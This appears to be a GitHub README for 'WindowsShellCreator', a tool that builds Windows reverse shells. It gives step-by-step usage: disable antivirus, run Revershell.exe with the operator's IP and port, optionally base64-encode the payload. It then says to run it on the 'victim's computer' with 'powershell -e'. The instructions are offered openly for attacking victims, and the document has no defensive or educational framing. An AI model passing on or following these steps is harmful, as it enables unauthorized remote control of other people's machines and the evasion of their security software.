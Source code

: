 # WindowsShellCreator
### (Stable Release)

## How to Use ?
1. Disable AntiVirus Software
2. Download Zip File 
3. Extract File
4. Open CMD or Powershell as Administrator 
5. type "Revershell.exe -H '```your device ip```' -p '```Choose your port number```' -b64 '```y/n```'"
### Note- You must specify whether you want base64 encoding via the ``` -b64 ``` flag.

## How to use base64 encode script ?
#### -> Copy the base64 code and go to victim's computer and type ``` *powershell -e* ``` and paste the copied base64 script [e.g. ```` *powershell -e 'base64encode here'* ````]

